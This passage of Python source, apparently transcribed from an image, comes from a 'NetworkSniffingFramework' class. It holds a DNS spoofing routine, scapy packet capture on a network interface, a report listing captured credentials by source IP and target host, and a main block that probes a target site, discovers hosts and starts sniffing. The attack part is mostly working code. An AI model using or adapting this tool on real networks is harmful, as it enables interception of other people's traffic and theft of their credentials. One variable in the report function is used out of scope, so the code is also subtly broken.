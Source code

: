 ```python
                    )
                )
                
                print(f"🎭 DNS spoofing test prepared for {packet[scapy.DNSQR].qname.decode()}")
                # Note: Actual sending would require proper network positioning
                
        except Exception as e:
            print(f"DNS spoofing test error: {e}")
    
    def start_packet_capture(self, duration=300):
        """Start packet capture for specified duration"""
        print(f"📡 Starting packet capture on {self.interface} for {duration} seconds")
        
        try:
            scapy.sniff(
                iface=self.interface,
                prn=self.packet_analyzer,
                timeout=duration,
                store=0
            )
        except KeyboardInterrupt:
            print("\n⏹️  Packet capture stopped by user")
        except Exception as e:
            print(f"❌ Capture error: {e}")
    
    def generate_report(self):
        """Generate comprehensive analysis report"""
        print("\n" + "="*50)
        print("📊 NETWORK SNIFFING ANALYSIS REPORT")
        print("="*50)
        
        print(f"\n🔑 Credentials Captured: {len(self.captured_credentials)}")
        for i, cred in enumerate(self.captured_credentials, 1):
            print(f"  {i}. {cred['source_ip']} -> {cred.get('target_host', cred.get('target_ip', 'N/A'))}")
            print(f"      Protocol: {cred.get('protocol', 'HTTP')}")
            print(f"      Time: {time.ctime(cred['timestamp'])}")
            print(f"      Data: {cred['data'][:100]}...")
            print()
        
        print(f"🌐 Network Mapping Complete")
        print(f"🎯 Target Site Monitoring: Active")
        print(f"📈 Total Analysis Duration: {duration} seconds")

# Example usage and testing
if __name__ == "__main__":
    # Initialize the framework
    sniffer = NetworkSniffingFramework("eth0")
    
    # Test target site connectivity
    try:
        test_response = requests.get(sniffer.target_site, timeout=10)
        print(f"✅ Target site accessible: HTTP {test_response.status_code}")
    except Exception as e:
        print(f"❌ Target site test failed: {e}")
    
    # Discover network hosts
    hosts = sniffer.discover_hosts()
    
    # Start packet capture
    capture_duration = 60  # 1 minute for testing
    sniffer.start_packet_capture(capture_duration)
    
```